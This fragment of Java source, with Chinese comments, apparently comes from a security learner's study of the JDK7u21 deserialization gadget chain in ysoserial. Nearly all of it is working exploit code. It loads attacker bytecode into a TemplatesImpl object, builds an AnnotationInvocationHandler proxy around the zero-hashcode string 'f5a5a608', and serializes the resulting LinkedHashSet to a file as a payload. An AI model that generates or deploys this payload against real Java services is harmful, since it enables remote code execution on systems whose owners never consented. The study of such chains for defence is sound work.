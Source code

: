 ```java
        final byte[] classBytes = evil.toBytecode();
        byte[][] trueclassbyte = new byte[][]{classBytes};

        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, trueclassbyte);

        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "Pwnr");

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());
        // ================================创建templates结束==========================================

        // 个人觉得这个字符串才是构造整个攻击链的精髓，妙，太妙了~
        String zeroHashCodeStr = "f5a5a608";

        HashMap map = new HashMap();
        map.put(zeroHashCodeStr, "foo");

        Constructor<?> handlerCon = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        handlerCon.setAccessible(true);
        InvocationHandler tempHandler = (InvocationHandler)handlerCon.newInstance(JDK7u21.class, map);
        Field typeField = tempHandler.getClass().getDeclaredField("type");
        typeField.setAccessible(true);
        typeField.set(tempHandler, Templates.class);

        Templates proxy = (Templates)Proxy.newProxyInstance(JDK7u21.class.getClassLoader(), new Class[]{Templates.class}, tempHandler);


        LinkedHashSet set = new LinkedHashSet(); // maintain order
        set.add(templates);
        set.add(proxy);

        // -----------------------这一段没有什么太大的用---------------------------
        // 把这段注释掉整个攻击链也是可以正常运行的，可能是ysoserial中有其他的考虑吧
        Field auxClassesField = templates.getClass().getDeclaredField("_auxClasses");
        auxClassesField.setAccessible(true);
        auxClassesField.set(templates, null);

        Field classField = templates.getClass().getDeclaredField("_class");
        classField.setAccessible(true);
        classField.set(templates, null);
        // -----------------------这一段没有什么太大的用---------------------------

        map.put(zeroHashCodeStr, templates); // swap in real object

        obj2File(set);
        verify();
    }

    public static void obj2File(Object obj) throws Exception{
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
    }
```